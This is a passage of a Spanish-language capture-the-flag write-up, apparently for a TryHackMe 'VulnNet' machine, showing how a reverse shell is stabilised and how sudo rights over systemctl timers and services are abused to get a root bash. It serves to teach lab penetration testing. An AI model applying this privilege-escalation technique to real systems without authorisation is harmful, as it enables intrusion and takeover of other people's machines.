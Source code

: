 ```
[Exportamos las variables de entorno]

/$ export TERM=xterm
/$ export SHELL=bash

[Consultamos en la máquina atacante las filas y columnas]

stty size
27 97

[Pasamos la configuración anterior a la reverse shell]

:/$ stty rows 40 columns 123
```

---

- Buscamos la forma de escalar privilegios con el comando **_sudo -l_**, en la salida observamos lo siguiente:


serv-manage@vulnnet-node:~$ sudo -l
Matching Defaults entries for serv-manage on vulnnet-node:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User serv-manage may run the following commands on vulnnet-node:
    (root) NOPASSWD: /bin/systemctl start vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl stop vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl daemon-reload
```

---

- Modificamos el script **_vulnnet-auto.timer_**, cambiando el tiempo de ejecución de 30 a 1 minuto:

![Vulnet-timer](/assets/images/thm-writeup-vuln/vuln_root3.png)

---

- Modificamos el script **_vulnet-job.service_**, el cual es llamado con el script de la imagen anterior, para que cree una **_bash_** como usuario **_root_**

![Vulnet-job](/assets/images/thm-writeup-vuln/vuln_root2.png)

---

- En este punto procedemos a detener el servicio **_vulnnet-auto.timer_** y reiniciarlo como se observa a continuación:


serv-manage@vulnnet-node:~$ sudo /bin/systemctl stop vulnnet-auto.timer
serv-manage@vulnnet-node:~$ sudo /bin/systemctl daemon-reload
serv-manage@vulnnet-node:~$ sudo /bin/systemctl start vulnnet-auto.timer
```

---